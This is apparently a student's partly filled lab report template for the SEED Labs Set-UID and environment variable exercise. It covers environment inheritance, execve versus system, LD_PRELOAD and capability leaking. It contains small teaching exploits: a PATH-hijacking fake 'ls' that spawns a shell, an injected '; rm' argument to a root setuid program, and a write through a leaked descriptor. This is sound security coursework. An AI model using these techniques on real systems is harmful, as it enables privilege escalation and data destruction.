



# SEED Labs - Environment Variable and Set-UID Program Lab Report

**Student Name:** Jack Lin  
**Date:** [Insert Date]  
**Course:** [Insert Course Name]

---

## Table of Contents
1. [Task 1: Manipulating Environment Variables](#task-1)
2. [Task 2: Passing Environment Variables from Parent to Child](#task-2)
3. [Task 3: Environment Variables and execve()](#task-3)
4. [Task 4: Environment Variables and system()](#task-4)
5. [Task 5: Environment Variables and Set-UID Programs](#task-5)
6. [Task 6: The PATH Environment Variable and Set-UID Programs](#task-6)
7. [Task 7: The LD_PRELOAD Environment Variable](#task-7)
8. [Task 8: system() versus execve()](#task-8)
9. [Task 9: Capability Leaking](#task-9)
10. [Conclusion](#conclusion)

---

## Task 1: Manipulating Environment Variables {#task-1}

### Objective
Study commands to set and unset environment variables in Bash.

### Commands Used
```bash
printenv
env
printenv PWD
env | grep PWD
export TEST_VAR=value
unset TEST_VAR
```

### Observations

**Screenshot 1.1:** Output of `printenv` command



**Screenshot 1.2:** Setting environment variable with `export`



**Screenshot 1.3:** Unsetting environment variable with `unset`



### Analysis
env/printenv lists active environment variables for the current shell
export NAME=value sets a variable and marks it to be included in the environment of child process, without export a shell variable is local to that shell only
unset NAME removes the variable from the current shell
export and unset are shell builtin as part of bash so the are not separate programs
Child process or any process created by fork inherit the parent's exported environment at the time of the fork. Non-exported shell variables are not inherited


---

## Task 2: Passing Environment Variables from Parent to Child {#task-2}

### Objective
Determine whether parent process environment variables are inherited by child processes.

### Step 1: Child Process Prints Environment

**Compilation:**
```bash
gcc myprintenv.c -o myprintenv
./myprintenv > child_output.txt
```

**Screenshot 2.1:** Child process output

[Insert screenshot here]

### Step 2: Parent Process Prints Environment

**Compilation:**
```bash
# Modified code with parent printing
./myprintenv > parent_output.txt
```

**Screenshot 2.2:** Parent process output

[Insert screenshot here]

### Step 3: Comparing Outputs

**Command:**
```bash
diff child_output.txt parent_output.txt
```

**Screenshot 2.3:** Diff command output

[Insert screenshot here]

### Analysis and Conclusion
[Explain whether child processes inherit environment variables from parent processes. Discuss any differences found in the diff output.]

---

## Task 3: Environment Variables and execve() {#task-3}

### Objective
Study how environment variables are affected when executing a new program via execve().

### Step 1: execve() with NULL Environment

**Compilation:**
```bash
gcc myenv.c -o myenv
./myenv
```

**Screenshot 3.1:** Output with NULL environment parameter

[Insert screenshot here]

### Step 2: execve() with environ Parameter

**Code modification:**
```c
execve("/usr/bin/env", argv, environ);
```

**Screenshot 3.2:** Output with environ parameter

[Insert screenshot here]

### Conclusion
[Explain how the new program gets its environment variables. Discuss the difference between passing NULL vs. environ to execve().]

---

## Task 4: Environment Variables and system() {#task-4}

### Objective
Study how environment variables are affected when using the system() function.

### Implementation

**Compilation:**
```bash
gcc mysystem.c -o mysystem
./mysystem
```

**Screenshot 4.1:** Output of system() function

[Insert screenshot here]

### Analysis
[Compare the behavior of system() with execve(). Explain why system() passes environment variables to the new program.]

---

## Task 5: Environment Variables and Set-UID Programs {#task-5}

### Objective
Determine which environment variables are inherited by Set-UID programs.

### Setup

**Compilation and Set-UID setup:**
```bash
gcc printenv_setuid.c -o printenv_setuid
sudo chown root printenv_setuid
sudo chmod 4755 printenv_setuid
```

### Setting Environment Variables

```bash
export PATH=/test:$PATH
export LD_LIBRARY_PATH=/test
export MY_CUSTOM_VAR=test123
```

**Screenshot 5.1:** Setting environment variables

[Insert screenshot here]

### Running Set-UID Program

```bash
./printenv_setuid
```

**Screenshot 5.2:** Output showing inherited environment variables

[Insert screenshot here]

### Analysis
[Discuss which environment variables were inherited and which were not. Pay special attention to LD_LIBRARY_PATH and other LD_* variables. Explain the security implications.]

---

## Task 6: The PATH Environment Variable and Set-UID Programs {#task-6}

### Objective
Exploit a Set-UID program by manipulating the PATH environment variable.

### Creating Malicious "ls" Program

**Malicious script:**
```bash
#!/bin/bash
echo "Malicious code executed!"
/bin/bash
```

**Screenshot 6.1:** Creating malicious ls

[Insert screenshot here]

### Linking /bin/sh to zsh

```bash
sudo ln -sf /bin/zsh /bin/sh
```

**Screenshot 6.2:** Changing shell link

[Insert screenshot here]

### Exploitation

```bash
export PATH=/home/seed:$PATH
./ls_setuid
```

**Screenshot 6.3:** Successful exploitation

[Insert screenshot here]

### Analysis
[Explain how the PATH manipulation allowed execution of malicious code. Discuss why linking to zsh was necessary. Explain the security vulnerability and how it could be prevented.]

### Cleanup

```bash
sudo ln -sf /bin/dash /bin/sh
```

---

## Task 7: The LD_PRELOAD Environment Variable {#task-7}

### Objective
Study how LD_PRELOAD affects Set-UID programs.

### Step 1: Building Dynamic Library

**Compilation:**
```bash
gcc -fPIC -g -c mylib.c
gcc -shared -o libmylib.so.1.0.1 mylib.o -lc
export LD_PRELOAD=./libmylib.so.1.0.1
gcc myprog.c -o myprog
```

**Screenshot 7.1:** Building the library

[Insert screenshot here]

### Step 2: Testing Different Scenarios

#### Scenario A: Regular Program, Normal User

**Screenshot 7.2:** Regular program output

[Insert screenshot here]

#### Scenario B: Set-UID Root Program, Normal User

```bash
sudo chown root myprog
sudo chmod 4755 myprog
./myprog
```

**Screenshot 7.3:** Set-UID root program output

[Insert screenshot here]

#### Scenario C: Set-UID Root Program, Root Account

```bash
sudo su
export LD_PRELOAD=./libmylib.so.1.0.1
./myprog
```

**Screenshot 7.4:** Root account execution

[Insert screenshot here]

#### Scenario D: Set-UID user1 Program, Different User

**Screenshot 7.5:** Different user execution

[Insert screenshot here]

### Step 3: Analysis

[Explain the different behaviors observed. Discuss why LD_PRELOAD works in some scenarios but not others. Explain the security mechanism that prevents LD_PRELOAD from affecting Set-UID programs.]

---

## Task 8: system() versus execve() {#task-8}

### Objective
Compare security implications of using system() vs. execve() in Set-UID programs.

### Step 1: Exploitation Using system()

**Setup:**
```bash
gcc catall.c -o catall
sudo chown root catall
sudo chmod 4755 catall
```

**Attack attempt:**
```bash
./catall "/etc/passwd; rm /tmp/testfile"
```

**Screenshot 8.1:** system() vulnerability exploitation

[Insert screenshot here]

### Step 2: Testing with execve()

**Code modification:** (uncomment execve, comment system)

**Screenshot 8.2:** execve() preventing exploitation

[Insert screenshot here]

### Analysis
[Explain why system() is vulnerable to command injection. Discuss how execve() prevents this vulnerability. Provide recommendations for secure coding practices.]

---

## Task 9: Capability Leaking {#task-9}

### Objective
Exploit a capability leaking vulnerability in a Set-UID program.

### Setup

```bash
sudo touch /etc/zzz
sudo chmod 644 /etc/zzz
gcc cap_leak.c -o cap_leak
sudo chown root cap_leak
sudo chmod 4755 cap_leak
```

**Screenshot 9.1:** Setup

[Insert screenshot here]

### Exploitation

```bash
./cap_leak
# Inside the spawned shell:
echo "Exploited!" >&3
```

**Screenshot 9.2:** File descriptor information

[Insert screenshot here]

**Screenshot 9.3:** Successful write to /etc/zzz

[Insert screenshot here]

### Analysis
[Explain what capability leaking is. Discuss how the file descriptor remained open after privilege revocation. Explain the security implications and how to prevent this vulnerability.]

---

## Conclusion {#conclusion}

### Key Learnings

1. **Environment Variable Inheritance:**
   [Summarize findings about how environment variables are passed between processes]

2. **Set-UID Security:**
   [Discuss security mechanisms in Set-UID programs and their limitations]

3. **Common Vulnerabilities:**
   [List the main vulnerabilities discovered and their exploitation methods]

4. **Security Best Practices:**
   - Use absolute paths instead of relative paths
   - Use execve() instead of system() for privileged programs
   - Clean up capabilities before dropping privileges
   - Be aware of which environment variables affect program behavior

### Real-World Implications

[Discuss how these vulnerabilities could be exploited in real systems and their potential impact]

### Recommendations

[Provide recommendations for secure programming practices based on lab findings]

---

## References

- SEED Labs Manual: Environment Variable and Set-UID Program Lab
- Computer & Internet Security: A Hands-on Approach, 2nd Edition by Wenliang Du
- Linux man pages: fork(2), execve(2), setuid(2)

---

**End of Report**
